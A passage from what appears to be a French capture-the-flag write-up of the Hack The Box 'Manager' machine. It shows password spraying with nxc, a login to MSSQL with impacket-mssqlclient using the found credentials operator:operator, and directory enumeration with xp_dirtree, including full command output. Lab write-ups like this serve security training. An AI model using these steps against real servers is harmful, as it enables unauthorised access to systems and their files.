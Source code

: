 J'ai trouver des utilisateurs, alors je vais les mettre dans une liste puis essayer de faire du `PasswordSpraying` avec `nxc`

![nxc PasswordSpray]()

Je trouve un Utilisateur valide, alors je vais l'essayer avec le `mssql` disponible au port `1433`

```shell
└─# impacket-mssqlclient manager.htb/operator:operator@10.129.243.129 -windows-auth
Impacket v0.12.0.dev1+20231114.165227.4b56c18a - Copyright 2023 Fortra

[*] Encryption required, switching to TLS
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
[*] ENVCHANGE(LANGUAGE): Old Value: , New Value: us_english
[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
[*] INFO(DC01\SQLEXPRESS): Line 1: Changed database context to 'master'.
[*] INFO(DC01\SQLEXPRESS): Line 1: Changed language setting to us_english.
[*] ACK: Result: 1 - Microsoft SQL Server (150 7208) 
[!] Press help for extra shell commands
SQL (MANAGER\Operator  guest@master)> xp_dirtree
subdirectory                depth   file   
-------------------------   -----   ----   
$Recycle.Bin                    1      0   

Documents and Settings          1      0   

inetpub                         1      0   

PerfLogs                        1      0   

Program Files                   1      0   

Program Files (x86)             1      0   

ProgramData                     1      0   

Recovery                        1      0   

SQL2019                         1      0   

System Volume Information       1      0   

Users                           1      0   

Windows                         1      0   

SQL (MANAGER\Operator  guest@master)> 

```

Donc ici, je dois lister toutes les fichiers dans ces dossier avec `xp_dirtree`, alors je vais checker les fichiers disponible sur le serveur web.
